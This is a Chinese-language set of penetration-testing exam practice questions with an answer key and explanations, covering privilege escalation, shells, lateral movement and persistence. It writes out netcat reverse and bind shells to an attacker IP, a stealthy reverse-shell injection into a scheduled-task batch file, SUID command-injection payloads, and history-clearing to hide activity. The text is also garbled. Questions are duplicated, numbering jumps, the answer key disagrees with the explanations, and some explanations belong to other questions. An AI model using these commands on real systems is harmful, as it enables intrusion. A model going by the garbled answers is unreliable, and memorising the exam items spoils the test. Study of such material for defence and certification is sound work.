

**14.** 在给出的选项中，`DVWA` 这一组件被利用的是什么漏洞？

**A.** `XSS`

**B.** 本地文件包含

**C.** 代码注入

**D.** Cookie 操控

 `B` 是正确的。使用目录遍历（directory traversal）并尝试访问 Web 应用程序不应访问的文件（`/etc/passwd`），这清楚地表明这是一个成功的本地文件包含尝试。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为 `XSS` 通过用户受骗在浏览器中执行的恶意 `JavaScript` 呈现。恶意代码可能嵌入受信任的网站中、从受害者发送到 Web 服务器并通过特殊构造的链接反射，或者完全在受者的浏览器中执行而服务器不知。`C` 是错误的，因为代码注入会看到恶意构造的 URL 中的 `JavaScript`、`PHP` 或或其他执行语言。`D` 是错误的，因为 Cookie 操控是一种针对 Web 服务器会话管理和身份验证的攻击方法。它最常见于会话劫持尝试。

**15.** 考虑显示的信息。这如何帮助攻击者扩大对系统的访问？（选择两个）

**A.** `/etc/passwd` 文件的内容识别了潜在的钓鱼目标电子邮件地址。

**B.** 了解用户账户的 shell 类型将使破解密码变得更容易。

**C.** 暴露 `/etc/passwd` 中的用户列表可以允许攻击者识别出许多 `nologin` shell 系统账户之外的标准用户账户，从而可能使其成为暴力破解或其他渗透手段攻击目标。

**D.** 该 URL 字符串还演示了目录遍历，允许攻击者读取系统中运行 Web 服务器的用户权限范围内可以读取的任何文件。

 `C` 和 `D` 是正确的。


**B.** 对 `10.1.2.0/24` 范围内可分配的 IP 地址进行持续一分钟的 ping，将所有输出重定向到 `/dev/null`，并每个地址返回两条消息——一个显示主机为 `UP`，另一个显示主机为 `UNAVAILABLE`。

**C.** 使用一个包对 `10.1.2.1` 到 `10.1.2.254` 之间的随机 IP 地址进行 ping，通过重定向到 `/dev/null` 静默输出，并返回一个指示主机是否可用简单消息。

**D.** 分别对 `10.1.2.1` 和 `10.1.2.254` 进行持续一分钟的 ping，通过重定向到 `/dev/null` 静默输出，并返回一个指示主机是否可用简单消息。

### **5 .** 假设你知道正在处理一个 `/24` 的 IP 地址段，但不确定哪些主机是处于在线状态。你希望尽量减少屏幕输出，只打印那些在线并响应 ping 的 IP 地址。为了实现此输出更改，应对该命令进行什么修改？

**A.** 删除序列中的 `>/dev/null` 部分。

**B.** 删除序列中的 `|| echo 10.1.2.$i UNAVAILABLE` 部分。

**C.** 在命令序列末尾添加 `| nc -nv 10.1.3.2 4444`。

**D.** 在命令序列末尾添加 `> output.txt`。

### **6 .** 在 Linux 权限提升中，当尝试识别可能用于利用的特定操作系统漏洞时，以下哪些命令最有用用？（选择两项。）

**A.** `uname -r`

**B.** `sudo -V`

**C.** `cat /etc/*release`

**D.** `sudo -l`

### **7 .** 哪种针对 *nix* 操作系统的权限提升技术，其特点是允许攻击者在*不需要*编写和部署自己的 shellcode 的情况下，控制目标系统上的程序执行？

**A.** Ret2libc

**B.** NOP sled

**C.** Heap spraying

**D.** Stack smashing

### **8 .** 在 Windows 权限提升中，当尝试识别可能用于利用的特定操作系统漏洞时，以下哪些命令最有用？（选择两项。）

**A.** `netsh firewall show config`

**B.** `systeminfo`

**C.** `wmic qfe`

**D.** `net users`

### **9 .** 在渗透测试期间，你通过钓鱼攻击收集了 Linux 服务器的低级身份凭据。在测试并验证这些凭据后，你开始寻找提升权限级别的方法并发现了以下内容。

此截图中代表了哪种配置漏洞？

**A.** 不安全的 SUID/SGID 使用

**B.** 粘滞位（Sticky bit）滥用

**C.** 明文存储密码

**D.** 不安全的 sudo 访问

### **10 .** 在渗透测试期间，你在用户主目录下发现了一个似乎是自定义的二进制文件。在此所示，这种情况下最可能存在的配置漏洞是什么？

**A.** 粘滞位（Sticky bit）滥用

**B.** 不安全的 sudo 访问

**C.** 未加引号的服务路径

**D.** 不安全的 SUID/SGID 使用

### **11 .** 在问题 10 提到的同一目录中，你看到了一个似乎是用于构建问题中漏洞可执行文件的 `.c` 文件。文件内容所示。

根据 `.c` 文件的内容，以下哪些命令会通过编译后的二进制文件导致权限提升？（选择所有）

**A.** `./vulnerable 127.0.1`

**B.** `./vulnerable || sh`

**C.** `./vulnerable; sh`

**D.** `./vulnerable 127.0.1`

### **12 .** 此处显示的输出来自调试会话。最可能正在使用的工具是？

**A.** GDB

**B.** WinDbg

**C.** Olly

**D.** Strace

### **13 .** 以下哪些命令可以用于 Windows 系统？

**A.** Kerberoasting

**B.** 密码破解

**C.** DLL 导出

**D.** 内核利用

### **14 .** 以下哪些命令可以用于 Windows 系统？

**A.** Kerberoasting

**B.** 密码破解

**C.** DLL 导出

**D.** 内核利用

### **15 .** 考虑以下截图，展示了哪种漏洞？

**A.** 计划任务

**B.** 不安全的服务

**C.** DLL 劫持

**D.** 内核利用

### **16 .** 考虑以下截图，展示了哪种漏洞？

**A.** 计划任务

**B.** 不安全的服务

**C.** DLL 劫持

**D.** 内核利用

### **17 .** 在问题 16 的示例中，以下哪些命令可以在攻击系统上运行，为 shell 回调设置监听器？（选择两项。）

**A.** `nc -nvlp 10.1.2.2`

**B.** `nc -nv 80`

**C.** `nc -nvlp 80`

**D.** `ncat -nvlp 80`

### **18 .** 在以下选项中，哪个命令序列将在 Linux 受害者上以低权限用户身份设置绑定 shell（bound shell）？

**A.** `nc -nvlp 4444 -e /bin/bash`

**B.** `nc -nv 10.1.2.2 1226 -e /bin/bash`

**C.** `nc -nvlp 8080 < /bin/bash`

**D.** `nc -nvlp 86 -e /bin/bash`

### **19 .** 在攻击系统上输入以下哪些命令，可以将哑 shell（dumb shell）升级为全功能或伪终端（TTY）环境？

**A.** `python -E import pty; pty.spawn("/bin/bash")`

**B.** `reset -r`

**C.** `python -c "import pty; pty.spawn('/bin/bash')"`

**D.** `reset -s`

### **20 .** 哪种术语指的是允许攻击者绕过其直接操作系统环境边界，并实现与底层虚拟机程序（对于托管虚拟机程序则为宿主机操作系统）交互的任何技术？

**A.** 虚拟机逃逸（VM escape）

**B.** VENOM 攻击

**C.** 容器逃逸（Container escape）

**D.** 云暴攻击（Cloudburst attack）


### 21 .** 哪种 Windows 原生工具可以在端口 `5985` 和 `5986` 允许在目标系统上直接执行 PowerShell 命令和脚本，使其对于试图在目标网络或环境中进行横向移动的攻击者具有极高价值？

**A.** WinRM
**B.** WMI
**C.** `PsExec`
**D.** SMB

### 22 .** 哪种图形化远程连接工具是平台无关的，最初由位于英国剑桥的 Olivetti 研究实验室开发，可以用于辅助攻击者进行横向移动以及更方便地访问目标系统？

**A.** RDP
**B.** VNC
**C.** Apple 远程桌面
**D.** telnet

### 23 .** 哪种技术是专门为通过 `SSH` 连接传输图形化应用程序数据而开发的？

**A.** RSH login
**B.** 本地端口转发
**C.** RDP
**D.** X11 服务转发

### 24 .** 基于 ________ 的持久化依赖于对操作系统后台运行的应用程序进行修改；这些程序通常由 \*nix 操作系统中的 `init` 进程以及 Windows 环境中的 `Service Control Manager`（服务控制管理器）进行处理。

**A.** 创建新用户
**B.** 守护进程 (Daemon)
**C.** 安装 SSH 公钥
**D.** 创建或修改计划任务/作业

### 25 .** 哪种实现持久化的方法依赖于向目标系统上的现有应用程序注入恶意代码，并利用授权用户对该应用程序的信任？

**A.** 创建计划任务
**B.** 创建新用户
**C.** 基于守护进程的
**D.** 木马 (Trojan)

### 26 .** 在渗透测试期间获得目标 Linux 系统的访问后，以下哪些属于混淆你活动的良好实践？（选择两项）

**A.** 运行命令 `unset HISTFILE`。
**B.** 配置 cron 任务，在每天中午向攻击系统开启一个新的反向 shell。
**C.** 运行命令 `sudo -l` 以识别所用账户的权限。
**D.** 删除在创建原始 shell 过程中创建的任何文件或产物。

### 27 .** 哪种工具最初是作者为了学习 C 开发而编写的，除了提取明文密码和 Kerberos 票据，还能执行哈希传递（pass-the-hash）或票据传递（pass-the-ticket）攻击并创建黄金票（golden tickets）？

**A.** Patator
**B.** Peach
**C.** SonarQube
**D.** `Mimikatz`

### 28 .** 哪种工具是专注于 Java 语言的且最初由马里兰大学开发的静态代码分析器？

**A.** DynamoRIO
**B.** Findbugs
**C.** YASCA
**D.** AFL

### 29 .** 以下哪种技术允许攻击者以最小的努力几乎瞬间地重新与目标 Linux 系统建立加密通信？

**A.** 在命令提示符中通过 `netcat` 或 `ncat` 设置一个绑定 shell（bound shell）并将其发送到后台。
**B.** 配置 cron 任务，每天中午向攻击者发送一个 `netcat` 反向 shell。
**C.** 将攻击系统的公 `SSH` 密钥安装到目标系统中。
**D.** 修改系统启动脚本，在系统启动时创建一个绑定 shell。


- 2 . C
- 3 . D
- 4 . A
- 5 . B
- 6 . A, C
- 7 . A
- 8 . B, C
- 9 . D
- 10 . D
- 11 . A, B
- 12 . B
- 13 . B
- 14 . C
- 15 . B
- 16 . D
- 17 . C, D
- 18 . A
- 19 . C
- 20 . A
- 21 . A
- 22 . B
- 23 . D
- 24 . B
- 25 . D
- 26 . A, D
- 27 . D
- 28 . B
- 29 . C
- 30 . B
- 31 . D
- 32 . D
- 33 . C
- 34 . A
- 35 . C
- 36 . B
- 37 . A
- 38 . C
- 39 . D
- 40 . B

### 深度解析 A

请针对前六道题考虑以下 bash 单行命令。

 1 . 在此命令中字符串 `{1..254}` 的作用是什么？
- A. 表示将数字 1 和 254 作为 `i` 输入到命令中
- B. 表示将 1 到 254 之间的所有整数一次性作为 `i` 输入到命令中
- C. 表示将从 1 到 254 的所有整数迭代地作为 `i` 输入到命令中
- D. 表示从 1 开始每隔一个整数迭代地作为 `i` 输入到命令中，直到至少达到 254 为止

 **C** 正确。这是 for 循环的示例——命令流语句表示随后的所有命令都应该对所有可能的值（在本例中为 `i`）重复并迭代执行。字符串 `{1..254}` 表示一个从 1 开始的数字序列。

 **A**、**B** 和 **D** 都是错误的。A 是错误的，因为 `{1..254}` 表示的是 1 到 254 的所有整数。B 是错误的，因为它是迭代地输入，而不是一次性的。D 是错误的，因为它包含了所有整数，而不是每隔一个整数。

2 . 在此命令中 `>&1` 的作用是什么？
- A. 将标准输出重定向到文件 1
- B. 将标准错误重定向到文件 1
- C. 将标准错误重定向到标准输出
- D. 将标准输出重定向到文件

 **C** 正确。这会将标准错误（stderr）重定向到标准输出（stdout）。更多信息请搜索“文件重定向”。

 **A**、**B** 和 **D** 都是错误的。A 是错误的，因为 2 指的是标准错误而不是标准输出，且 `>` 运算符并没有将其写入文件。B 是错误的，因为该序列是针对标准输出的。

3 . 在此序列中 `||` 运算符的功能是什么？
- A. 只有在前命令成功时才执行后续命令
- B. 将前一个命令的输出输入到下一个
- C. 只有在前命令退出码为 0 时执行
- D. 只有在前命令执行失败时执行后续命令

 **D** 正确。`||` 是或运算符。当 `||` 运算符存在时，只有在前命令执行失败才会执行后续命令。更多信息请搜索“布尔运算符”。

 **A**、**B** 和 **C** 都是错误的。A 是错误的，因为描述的行为匹配的是与运算符（由符号对 `&&` 指定）。`&&` 运算符的存在表示只有在前命令成功时才执行后续命令。B 是错误的，因为描述的行为匹配 `|` 运算符，即管道。C 是错误的，正如 A 详细说明，这是使用 `&&` 运算符连接两个命令时的预期行为。

4 . 这一系列命令的有效结果是什么？
- A. ping 10.1.2.0/24 范围内的所有可用 IP 地址一个包，通过将所有输出重定向到 `/dev/null` 来静音，并返回一个关于主机是否响应 ICMP 请求的简单消息
- B. ping 10.1.2.0/24 范围内的所有可用 IP 地址一分钟，将所有输出重定向到 `/dev/null`，并为每个地址返回两条消息——一个显示 UP，另一个显示 UNAILABLE
- C. ping 10.1.2.1 和 10.1.2.254 之间的随机 IP 地址一个包，通过将所有输出重定向到 `/dev/null` 来静音，并返回一个关于主机是否可用的简单消息
- D. 分别 ping 10.1.2.1 和 10.1.2.254 一分钟，通过将所有输出重定向到 `/dev/null` 来静音，并返回一个关于主机是否可用的简单消息

 **A** 正确。该命令将 ping 10.1.2.1 到 10.1.2.254 的所有可用 IP 地址，发送一个包，静音所有输出，并打印一条关于主机是否响应 ICMP 请求的简单消息。


**B**、**C** 和 **D** 是错误的。**B** 错误是因为按照其编写的方式，命令序列不可能为每个主机同时打印两个命令。由于 `&&` 和 `||` 运算符都依赖于退出码来确定逻辑流，对于大括号扩展数字序列生成的任何 IP 地址，这两个命令中仅有一个可以运行。**C** 是错误的，因为 `for` 循环是迭代运行的，而不是从提供的目标列表中随机选择一个。**D** 是错误的，因为所编写的 `for` 循环将必然处理从 `10.1.2.1` 到 `10.1.2.254` 的所有 IP 地址。如果仅处理这两个 IP 地址，可以移除大括号扩展组件并将这两个 IP 地址硬编码在其中。

### 5 .****
假设你正在处理一个 `/24` 的 IP 地址块，但你不确定哪些主机是在线的。你希望尽量减少屏幕输出，只打印那些在线并响应 ping 的 IP 地址。为了实现这一输出更改，可以对该命令进行什么修改？

**A.** 删除序列中的 `>/dev/null` 组件。

**B.** 删除序列中的 `|| echo 10.1.2.$i UNAVAILABLE` 组件。

**C.** 在命令序列末尾添加 `| nc -nv 10.1.3.2 4444`。

**D.** 在命令序列末尾添加 `> output.txt`。

**B** 是正确的。如果怀疑涉及的 IP 地址中的大多数是不可用的，那么移除那个仅在主机不响应 ICMP 请求时才打印到终端的命令将是减少输出的最有效手段。

**A**、**C** 和 **D** 是错误的。**A** 错误的，因为这确保了所有内容都打印到终端——包括成功和失败的两次 ping 内容。这将极大地增加终端输出，不符合本题的目的。**C** 是错误的，因为添加列出的 netcat 命令将把所有输出通过 netcat 隧道传输到 IP `10.1.3.2` 的端口 `4444`。这实际上屏蔽了所有输出，只有恰好在 IP `10.1.3.2` 并在端口 `4444` 运行 netcat 监听器的人可见。**D** 是错误的，因为它会将所有输出（说明成功和失败的情况）重定向到名为 `output.txt` 的文件中。注意，答案 D 中描述的行为在某些情况下可能特别有用；有时解析一个静态文件比反复运行命令更简单。

### 6 .****
在 Linux 权限提升中，尝试识别用于利用的特定漏洞时，以下哪些命令最有用？（选择两个）

**A.** `uname -r`

**B.** `sudo -V`

**C.** `cat /etc/*release`

**D.** `sudo -l`

**A** 和 **C** 是正确的`uname -r` 提供内核版本和发布版本，这对于识别已知的内核漏洞至关重要。`cat /etc/*release` 提供有关操作系统发行版和版本的信息。**B** 和 **D** 是错误的，因为 `sudo -V` 显示 sudo 二进制文件本身的版本，`sudo -l` 显示当前用户的权限，这并不一定能识别特定的操作系统漏洞。

### 7 .****
以下哪种技术用于 Linux 系统的权限提升？

**A.** `ret2libc`

**B.** `NOP sled`

**C.** `heap spraying`

**D.** `stack smashing`

**A** 是正确的。`ret2libc` 是一种用于将执行重定向到库中现有函数（如 `libc`）以绕过安全保护的技术。**B**、**C** 和 **D** 是错误的：`NOP sled` 用于增加 shellcode 的可靠性，`heap spraying` 是针对堆的内存损坏技术，而 `stack smashing` 指的是漏洞本身，而不是此上下文下的特定提升技术。

### 8 .****
在 Windows 权限提升中，尝试识别特定的操作系统漏洞时，以下哪些命令最有用？（选择两个）

**A.** `netsh firewall show config`

**B.** `systeminfo`

**C.** `wmic qfe`

**D.** `net users`

**B** 和 **C** 是正确的。`systeminfo` 提供操作系统名称、版本和安全补丁的信息。带有 `qfe` 标志的 `wmic` 提供有关安装的快速修复（Quick Fix Engineering）的信息，有助于识别未修补的漏洞。**A** 和 **D** 是错误的：`netsh firewall show config` 只显示防火墙规则，`net users` 返回授权用户列表，这无法识别操作系统级别的漏洞。


`A`、`B` 和 `C` 是错误的。`A` 是错误的，因为当漏洞程序设置了 SUID 或 GUID 位时，就会发生不安全的 SUID/GUID 使用——例如，为 `/bin/sh` 设置 SUID 位将导致所有 `/bin/sh` 调用都会在不需要密码的情况下以 root 身份执行。`B` 是错误的，因为世界可写目录上缺少粘滞位（sticky bit）将允许第三方能够更改或破坏属于其他用户的文件，而不忽略该文件上现有的权限。`C` 是错误的，因为在显示的系统中既不存在也无法检测到密码，而且该系统上的用户根本不需要密码。尽管如此，在用户文件中发现明文形式的密码并不罕见；设想一下由于肌肉记忆误输了 `ssh` 命令，并在命令运行失败后立即尝试输入密码，这是多么容易发生。在这种情况下，密码便会在 shell 历史记录中被找到。

### 问题 10

在渗透测试期间，你在用户主目录下发现了一个似乎是自定义的二进制文件。在此所示的场景情况下，最可能存在的配置漏洞是什么？



**A.** 粘滞位滥用
**B.** 不安全的 sudo 访问
**C.** 未加引号的服务路径
**D.** 不安全的 SUID/SGID 使用

`D` 是正确的。`vulnerable_ping` 文件的所有者（root）设置了 SUID 位。在寻找权限提升路径时，SUID 二进制文件始终值得调查是否存在命令注入或其他漏洞（特别是当它们以 root 用户身份运行时）。

`A`、`B` 和 `C` 是错误的。`A` 是错误的，因为世界可写目录上缺少粘滞位（sticky bit）将允许第三方能够更改或破坏属于其他用户的文件，而不忽略该文件上现有的权限。`B` 是错误的，因为所示屏幕的内容中没有迹象表明存在不安全的 sudo 访问。`C` 是错误的，因为未加引号的服务路径漏洞仅适用于 Windows 环境。

### 问题 11

在问题 10 提到的目录下，你看到了一个似乎用于构建该漏洞可执行文件的 `.c` 文件。该文件的内容所示。



根据此 `.c` 文件的内容，以下哪个命令可能通过编译后的 root  SUID 二进制文件导致权限提升？（选择所有适用项。）

**A.** `./vulnerable_ping "127.0.0.1 && /bin/dash"`
**B.** `./vulnerable_ping "foo || sh -i"`
**C.** `./vulnerable_ping "foo; /bin/bash"`
**D.** `./vulnerable_ping 127.0.0.1; /bin/sh`

`A` 和 `B` 是正确的。`A` 是正确的，因为它向应用程序通过 `system()` 调用调用的 ping 命令发送了有效的 IP 地址，该命令将返回退出代码 0。由于命令包含了 AND 运算符（由 `&&` 表示），第二个命令 `(/bin/dash` —一种用于 Ubuntu 和其他 Linux 发行版初始化脚本的轻量级 shell）将执行并为用户提供 EUID（有效用户 ID）0，即 root。`B` 是正确的，因为命令向应用程序通过 `system()` 调用调用的 ping 命令发送了无效的 IP 地址（字符串 `"foo"`），导致命令以非零退出代码退出（表示失败）。由于命令字符串包含了 OR 运算符（由 `||` 表示），第二个命令（`sh -i`）将执行，再次为用户提供 EUID 为 0。请注意，在 A 和 B 的情况下，发送给应用程序的参数都需要引号。这会将整个组件视为单个字符串，并由应用程序指定为 `argv[1]`。如果没有引号，空格将用作分隔不同命令行参数的分隔符。

```
./vulnerable_ping "127.0.0.1 && /bin/dash"
./vulnerable_ping "foo || sh -i"
./vulnerable_ping "foo; /bin/bash"
./vulnerable_ping 127.0.0.1; /bin/sh
```

（注：原文指出：“发送给应用程序的参数需要引号。这会将整个组件视为单个字符串，并由应用程序指定为 `argv[1]`。如果没有引号，空格将用作分隔不同命令行参数的分隔符。”

`C` 和 `D` 是错误的。`C` 是错误的，因为未加引号的服务路径漏洞仅适用于 Windows 环境。`D` 是错误的，因为分号将被 shell 解释，而不是作为参数的一部分传递给二进制文件。

### 问题 12

此处显示的输出来自 Linux 应用程序调试和模糊测试会。在以下选项中，最可能使用的调试工具是哪个？


**A.** OLLYDBG
**B.** GDB
**C.** WinDBG
**D.** Immunity Debugger

`B` 是正确的。这里显示的调试器是 GDB，即 GNU 调试器。它是 \*nix 操作系统中默认的命令行工具，并支持多种编程语言，包括 C、Objective-C、Fortran 和 Java。虽然 GDB 没有原生的图形界面，但第三方创建了多个界面。此外，许多 IDE 能够直接与 GDB 交互。

`A`、`C` 和 `D` 是错误的。`A` 是错误的，因为此处显示的 OllyDbg 是 Microsoft Windows 的 x86 调试器。`C` 是错误的，因为 WinDBG 是微软开发并分发的 Windows 操作系统的专有调试器。`D` 是错误的，因为 Immunity Debugger 是专为漏洞利用设计的轻量级调试器。


### A. DLL 劫持
### B. cpassword 提取
### C. SAM 数据库破解
### D. LSASS 转储

 **B** 是正确的。在组策略对象（GPO）中发现 `cpassword` 属性是一个明显的安全漏洞，这主要是由于所有此类条目都使用了静态加密密钥，以及微软在其文档页面上公开了其所使用的密钥。如果在组策略对象（位于 `SYSVOL` 目录中）中发现了 `cpassword` 属性，等同于以明文形式存储密码。

 **A**、**C** 和 **D** 都是错误的。**A** 是错误的，因为 DLL 文件（或动态链接库）是包含应用程序所用代码的文件。与其在多个应用程序中重复代码，不如你可以在整个系统中共享和重用单个 `DLL` 文件；在 *nix* 系统中，此功能由共享对象（`.so`）文件提供。DLL 劫持发生在应用程序被操纵加载包含攻击者有效负载的恶意 `DLL` 文件时。这通常通过利用 Windows 遵循的记录清晰的 DLL 文件搜索路径来实现。**C** 是错误的，因为 SAM 数据库破解需要攻击者获取系统 `SAM` 和 `SYSTEM` 文件的副本，这些文件通常存储在 `C:\Windows\System32\config`。**D** 是错误的，因为 LSASS 转储发生在攻击者获取 Windows 系统上 `LSASS.exe` 进程的内存转储时。如果生成的 `.dmp` 文件被输入 `Mimikatz`，就可以检索系统中所有用户账户的明文密码。

#### 14 哪种攻击 Windows 家族操作系统的方法依赖于特定系统或服务器创建时留下的残留物进行权限提升？

A. Kerberoasting（金粉攻击）
B. 通过 LDAP 传输明文凭据
C. 收割无人安装产物
D. cpassword 提取

 **C** 是正确的。在较大的环境中，管理员通常会自动化系统的创建，以尽可能地减少他们必须手动处理的繁琐工作。这里的问题是，密码可能会留存在安装过程的必要文档中——要么是明文，要么经过了 `base64` 编码。

 **A**、**B** 和 **D** 都是错误的。**A** 是错误的，因为 Kerberoasting 是一种利用 Active Directory 支持旧版 Windows 客户端的攻击。当主机或用户请求 `AD` 服务时，他们会收到一个使用拥有服务的账户的 NTLM 哈希名的 Kerberos 票据。Kerberoasting 欺骗 AD 提供一个加密强度弱的票据，攻击者随后可以在上面运行破解尝试以获取账户密码。**B** 是错误的，因为如果发起请求的应用程序没有通过 `LDAPS`（基于 SSL 的 LDAP），则可以从 LDAP 收割凭据。应用程序将在第一个数据包中以明文传输用户名和密码。答案 A 和答案 B 都与系统创建没有关系。**D** 是错误的，因为如所述，在组策略对象中发现的 `cpassword` 属性对所有条目使用静态加密密钥，且所使用的密钥已由微软在其文档页面上发布。

#### 15 考虑以下 Windows 权限提升的截图。

 通过这些更改展示了哪种权限提升方法？

A. 计划任务滥用
B. 可写服务利用
C. DLL 劫持
D. 键盘记录

 **B** 是正确的。这是一个利用可写服务的经典示例。注意二进制路径的更改；它不是启动 `svchost` 可执行文件，而是配置了调用 netcat 反向 shell。可以通过 `accesschk.exe` 可执行文件识别可写服务，该工具由微软作为 Sysinternals 工具包的一部分分发。例如，在 Windows XP 上，所有用户都有权修改 `SSDPSRV` 和 `UPNHOST` 服务，这些服务以 `NT Authority\LocalService` 身份运行。

 **A**、**C** 和 **D** 都是错误的。**A** 是错误的，因为计划任务滥用通常发生在作为计划任务一部分运行的脚本或 `.bat` 文件对全球可写时。**C** 是错误的，因为 DLL 劫持发生在应用程序被操纵加载包含攻击者有效负载的恶意 `DLL` 文件时。这通常通过利用 Windows 遵循的记录清晰的 DLL 文件搜索路径来实现。**D** 是错误的，因为键盘记录是秘密记录计算机系统授权用户所击按键的实践。

#### 16 考虑 Windows 环境中的以下计划任务，你对其具有低权限访问。

 调查发现，作为计划任务一部分运行的 `.bat` 文件可以被任何人修改，并且包含以下命令：

```
cd "C:\Program Files\Rails"
ruby bin\rails server
```

你已经成功将 `nc.exe` 副本带入到 `C:\Users\Desktop`。假设你的攻击者 IP 为 `10.1.2.2` 且你已经在端口 80 设置了 netcat 监听器，以下操作哪种是权限侵入性的方法？

A. 在行尾附加 `& C:\Users\Desktop\nc.exe -nv 10.1.2.2 80 -e C:\Windows\System32\cmd.exe`
B. 在行尾附加 `&& @start C:\Users\Desktop\nc.exe -nv 10.1.2.2 80 -e C:\Windows\System32\cmd.exe`
C. 将文件内容覆盖为 `C:\Users\Desktop\nc.exe -nv 10.1.2.2 80 -e C:\Windows\System32\cmd.exe`
D. 在目录更改和 `rails.bat` 调用之间插入 `@start /b C:\Users\Desktop\nc.exe -nv 10.1.2.2 80 -e C:\Windows\System32\cmd.exe &`

 **D** 是正确的。注意问题指的是侵入侵性的方法：通过使用 `@start` 指令，此批文件的 netcat 组件将在独立的命令进程中异步运行，允许用户定义的 `rails.bat` 调用继续运行。这将有效地确保反向 shell 回连，同时合法用户看到他们的 Rails 服务器正在运行，使他们更有可能认为计划任务运行正常。

 **A**、**B** 和 **C** 都是错误的。**A** 和 **B** 是错误的，因为通过将这些内容添加到批脚本末尾，netcat 反向 shell 只有在 Rails 应用程序退出时才会启动回连。由于 Rails 服务器旨在一直运行，这意味着 netcat 反向 shell 只有在 Rails 服务器崩溃或手动关闭时才会回连，使得这些方法不可靠。**C** 是错误的，虽然它会在系统启动并实例化服务后立即导致回连，但它是极具侵入性的，因为合法用户可能会注意到他们的 Rails 服务器没有按预期运行。这可能会导致用户或系统管理员进行调查，大大增加了渗透测试人员行为被发现的几率以及针对渗透测试活动采取主动防御措施的可能性。

#### 17 在第 16 题的示例中，可以在攻击者系统上运行以下哪些命令来为反向 shell 回连设置监听器？（选择两项）**


### **A.** `nc -nvlp 10.1.2.2 80`

### **B.** `nc -nv 80`

### **C.** `nc -nvlp 80`

### **D.** `ncat -nvlp 80`

**C** 和 **D** 是正确的。使用的标志将通过传统的 `netcat` 工具和 `ncat` 在端口 80 上建立一个监听器，`ncat` 是 `netcat` 的精神继任者，由负责 `nmap` 的同一团队开发。

**A** 和 **B** 是错误的。**A** 是错误的，因为包含了完整的 IP 地址从本质上会欺骗 `netcat` 二进制文件；当它看到数字 10 时，它将忽略点之后的所有内容，并在端口 10 上开启监听器。**B** 是错误的，因为所使用的标志表示的是客户端连接，而不是建立监听器。

### 18 .**在下列选项中，哪条命令序列可以在 Linux 受害者主机上以低权限用户身份设置绑定 shell（bound shell）？

### **A.** `nc -nvlp 4444 -e /bin/bash`

### **B.** `nc -nv 10.1.2.2 1226 -e /bin/bash`

### **C.** `nc -nvlp 8080 < /bin/bash`

### **D.** `nc -nvlp 86 -e /bin/bash`

**A** 是正确的。提供的命令字符串通过正确的标志正确调用了 `netcat`，指定了可用的端口，并使用 `-e` 标志来为指向监听器的连接执行 `/bin/bash`。注意端口号 4444。在理论上，它可以是**任何**端口号——除 0 到 1023 端口之外。这些是预留给关键服务和功能的特权端口；用户必须拥有 root 权限才能绑定这些端口。

**B** , **C** 和 **D** 是错误的。**B** 是错误的，因为此命令字符串将向 IP 地址 10.1.2.2 的端口 1226 发反向 shell；注意缺少 `-l` 标志和完整的目标 IP。因为题目要求的是绑定 shell，所以这是错误的。**C** 是错误的，因为在这种情况下，攻击者正尝试通过输入重定向传递 bash shell，而不是使用 `-e` 标志。**D** 是错误的，因为作为低权限用户，受害者无法绑定到端口 86，因为这是前面详细介绍的特权端口之一。

### 19 .**以下哪些命令可以从攻击系统输入，以便将哑 shell（dumb shell）升级为完整或伪 TTY 环境？

### **A.** `python -E import pty; pty.spawn("/bin/bash")`

### **B.** `reset -r`

### **C.** `python -c "import pty; pty.spawn('/bin/bash')"`

### **D.** `reset -s`

**C** 是正确的。当通过 `netcat` 获取 shell 时，此处显示的 Python 字符串价值连城。通过这种方式获得的 shell 通常被称为“哑 shell”，因为它们缺乏完整的 TTY 环境以及相关的环境变量，并且不会提供命令历史记录或终端提示符，这些都会导致 shell 变得令人沮丧且难以使用。通过使用 `-c` 标志（命令标志）调用 Python 伪 TTY，渗透测试人员能够模拟出正确的终端。

